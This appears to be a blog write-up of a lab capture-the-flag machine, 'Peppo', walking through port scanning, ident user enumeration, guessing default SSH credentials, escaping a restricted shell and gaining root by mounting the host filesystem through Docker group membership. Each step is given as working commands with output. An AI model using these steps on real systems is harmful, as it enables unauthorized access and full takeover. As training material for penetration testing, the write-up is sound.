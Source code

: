 ```yaml
---
title: "Proving grounds Practice: Peppo"
layout: post
date: 2024-04-12 02:00
categories: writeup
---
```


Proving grounds Practice - Peppo CTF writeup.

# NMAP

```text
PORT      STATE SERVICE           VERSION
22/tcp    open  ssh               OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
113/tcp   open  ident             FreeBSD identd
5432/tcp  open  postgresql        PostgreSQL DB 12.3 - 12.4
8080/tcp  open  http              WEBrick httpd 1.4.2 (Ruby 2.6.6 (2020-03-31))
10000/tcp open  snet-sensor-mgmt?
```

## 8080/tcp  open  http  WEBrick httpd 1.4.2 (Ruby 2.6.6 (2020-03-31))

admin:admin

password change -> password

## 113/tcp   open  ident   FreeBSD identd

`sudo apt install ident-user-enum`

```sh
naveenj@hackerspace:[09:32]~/proving_grounds/Peppo$ ident-user-enum 192.168.196.60 113 22 10000
ident-user-enum v1.0 ( http://pentestmonkey.net/tools/ident-user-enum )

192.168.196.60:113	nobody
192.168.196.60:22	root
192.168.196.60:10000	eleanor
```

## 10000/tcp open  snet-sensor-mgmt?

user: eleanor

## 22/tcp    open  ssh   OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)

- Try brute forcing credentials using username as eleanor. `eleanor:eleanor`

***Escape rbash***

- https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/

Export necessary PATH

```sh
leanor@peppo:~/bin$ PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
eleanor@peppo:~/bin$ python -c 'import pty; pty.spawn("/bin/bash")'
eleanor@peppo:~/bin$ id
bash: id: command not found
n:/binr@peppo:~/bin$ PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin
eleanor@peppo:~/bin$ id
uid=1000(eleanor) gid=1000(eleanor) groups=1000(eleanor),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),999(docker)
```

## Privilege Escalation

- User & Groups: uid=1000(eleanor) gid=1000(eleanor) groups=1000(eleanor),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),999(docker)

### Docker exploit

`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

List Docker images in the system.

```sh
eleanor@peppo:/tmp$ docker image ls
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
redmine             latest              0c8429c66e07        3 years ago         542MB
postgres            latest              adf2b126dda8        3 years ago         313MB
```

Run `docker run -v /:/mnt --rm -it redmine chroot /mnt s`

```sh
eleanor@peppo:/tmp$ docker run -v /:/mnt --rm -it redmine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
```

**Root Obtained**

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).